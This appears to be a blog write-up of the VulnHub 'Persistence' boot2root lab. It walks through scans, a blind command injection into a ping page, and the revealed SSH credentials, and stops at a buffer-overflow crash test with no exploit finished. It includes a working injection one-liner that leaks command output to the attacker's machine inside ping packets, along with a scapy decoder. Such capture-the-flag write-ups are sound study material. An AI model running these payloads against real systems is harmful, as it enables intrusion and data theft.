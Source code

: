 ```yaml
---
layout: post
title: "Persistence boot2root writeup"
description: "Persistence boot2root writeup"
category: writeups
tags: [boot2root, vulnhub]
---
```

Initial recon shows that only one port is open with a web server running

{% highlight console %}
root@kali:~# netdiscover -i eth0
Currently scanning: 192.168.70.0/16   |   Screen View: Unique Hosts

1 Captured ARP Req/Rep packets, from 1 hosts.   Total size: 102
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.2.105   00:00:de:ad:be:ef      1      42  Unknown vendor
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64

{% endhighlight %}
Browsing to the web server, there is a static page with an image.
After a little bit of enumeration we find one other page on the web server(debug.php).
{% highlight bash %}
root@kali:~# nikto -h 192.168.2.105 -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.2.105
+ Target Hostname:    192.168.2.105
+ Target Port:        80
+ Start Time:         2016-06-12 00:50:51 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.4.7
+ Server leaks inodes via ETags, header found with file /, fields: 0x531fe71e 0x187 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.3
+ /debug.php: Possible debug directory/program found.
+ 26171 requests: 6 error(s) and 6 item(s) reported on remote host
+ End Time:           2016-06-12 00:51:18 (GMT-4) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endhighlight %}
Browsing to the page we find a web page which allows us to ping an inputted IP address. <img src="{{site.url}}/assets/debug_php.png">
I was able to verify that the ping command was working by running a packet capture when I submitted my query
{% highlight console %}
root@kali:~# tcpdump -i eth0 'icmp'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
00:53:29.550594 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 1, length 64
00:53:29.550607 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 1, length 64
00:53:30.550244 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 2, length 64
00:53:30.550267 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 2, length 64
00:53:31.550275 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 3, length 64
00:53:31.550297 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 3, length 64
00:53:32.550300 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 4, length 64
00:53:32.550320 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 4, length 64
{% endhighlight %}
After experimenting with various inputs I found that you can inject commands by appending a semicolon and adding additional commands.
The only issue is we have blind command injection as the page does not return the output of the commands.
After reading the man page for ping, there is one interesting arguments which can be used to transmit our command output.
The "-p" ping argument allows you specify 16 bytes to fill out the packet you send.
By abusing the "-p" argument and encoding the results of a command we have a working a shell.
Initially, I was trying to transmit 16 bytes at a time but faced issues when decoding a payload which was smaller than 16 bytes.
I gave up transmitting 16 bytes at a time and ended up only transmitting 1 byte at a time.
The below command will stop the first command, execute a command of our choosing and encode the command results in a series of ping packets
{% highlight bash %}
;PAYLOADS=$(ls -l 2>&1 | xxd -c 16 -ps); for PAYLOAD in $PAYLOADS; do ping -c 1 -p $PAYLOAD 192.168.2.103; done
{% endhighlight %}
Initially I was thinking of decoding the ping packets using a shell script with tshark but settled with scapy.
I hacked together the following script which will capture the ping packets, decode them and print the injected command's output.
{% highlight python %}
#!/usr/bin/env python2
from scapy.all import *

while True:
    packetcapture = sniff(timeout=1, filter='icmp[icmptype] == 8')
    for packet in packetcapture:
        if packet.haslayer(ICMP) and packet.getlayer(ICMP).type == 8:
            sys.stdout.write(packet.getlayer(ICMP).load[8])
{% endhighlight %}
The script will output your command output similar to the following.
{% highlight console %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
uid=498(nginx) gid=498(nginx) groups=498(nginx)
Linux persistence 2.6.32-431.5.1.el6.i686 #1 SMP Tue Feb 11 21:56:33 UTC 2014 i686 i686 i386 GNU/Linux
/usr/share/nginx/html
total 160
-rwxr-xr-x. 1 root root    439 Mar 17  2014 debug.php
-rw-r--r--. 1 root root    391 Mar 12  2014 index.html
-rw-r--r--. 1 root root 146545 Mar 12  2014 persistence_of_memory_by_tesparg-d4qo048.jpg
-rwsr-xr-x. 1 root root   5757 Mar 17  2014 sysadmin-tool
{% endhighlight %}
After getting the ping decode script working, I explored the file system a little bit.
It appeared that nginx was running inside of a chroot with only a few commands avaliable to us.
It also appeared that there was a local firewall dropping traffic.
I ended up downloading the interesting looking 'sysadmin-tool' binary which was being hosted and started investigating.
What was interesting is that that binary has the SUID bit set.
I ran strings against the binary which revealed the following interesting strings:
{% highlight console %}
Usage: sysadmin-tool --activate-service
--activate-service
breakout
/bin/sed -i 's/^#//' /etc/sysconfig/iptables
/sbin/iptables-restore < /etc/sysconfig/iptables
Service started...
Use avida:dollars to access.
/nginx/usr/share/nginx/html/breakout
{% endhighlight %}
It appears that the binary will disable the local firewall and provide login credentials.
I proceeded to run the binary and expected it disabled the local firewall and provided provided login credentials.
{% highlight console %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
Service started...
Use avida:dollars to access.
{% endhighlight %}
After a quick port scan, we see that SSH is now open. If you SSH in using the provided credentials you'll be dropped into a rbash shell.
{% highlight console %}
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open 192.168.2.105:22  ttl 64
TCP open                     ssh[   22]         from 192.168.2.105  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64
{% endhighlight %}
Looking around you can see there is a custom program named "wopr" running as root.
{% highlight console %}
-rbash-4.1$ ps aux | grep wopr
root      1092  0.0  0.0   2004   408 ?        S    05:54   0:00 /usr/local/bin/wopr
avida     2149  0.0  0.0   4356   732 pts/0    S+   06:48   0:00 grep wopr
{% endhighlight %}
I proceeded to download the binary and check for bufferoverflows.
{% highlight console %}
root@kali:~# ssh avida@192.168.2.105 "cat /usr/local/bin/wopr" > wopr
avida@192.168.2.105's password:
root@kali:~# ./wopr
[+] bind complete
[+] waiting for connections
[+] logging queries to $TMPLOG
[+] got a connection
*** stack smashing detected ***: ./wopr terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x6929b)[0xf75f329b]
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x37)[0xf7682eb7]
/lib/i386-linux-gnu/libc.so.6(+0xf8e78)[0xf7682e78]
./wopr[0x80487dc]
[0x41414141]
======= Memory map: ========
08048000-08049000 r-xp 00000000 fe:01 1705762                            /root/wopr
08049000-0804a000 r--p 00000000 fe:01 1705762                            /root/wopr
0804a000-0804b000 rw-p 00001000 fe:01 1705762                            /root/wopr
084b4000-084d5000 rw-p 00000000 00:00 0                                  [heap]
f7589000-f758a000 rw-p 00000000 00:00 0
f758a000-f773b000 r-xp 00000000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773b000-f773c000 ---p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773c000-f773e000 r--p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773e000-f773f000 rw-p 001b3000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773f000-f7742000 rw-p 00000000 00:00 0
f7747000-f7763000 r-xp 00000000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7763000-f7764000 rw-p 0001b000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7764000-f7765000 rw-p 00000000 00:00 0
f7765000-f7768000 rw-p 00000000 00:00 0
f7768000-f776b000 r--p 00000000 00:00 0                                  [vvar]
f776b000-f776d000 r-xp 00000000 00:00 0                                  [vdso]
f776d000-f778f000 r-xp 00000000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f778f000-f7790000 r--p 00021000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f7790000-f7791000 rw-p 00022000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
ffca8000-ffcc9000 rw-p 00000000 00:00 0                                  [stack]
root@kali:~# python -c 'print "A"*1024' | nc localhost 3333
[+] hello, my name is sploitable
[+] would you like to play a game?
> [+] yeah, I don't think so
{% endhighlight %}
# TODO: Build a working exploit
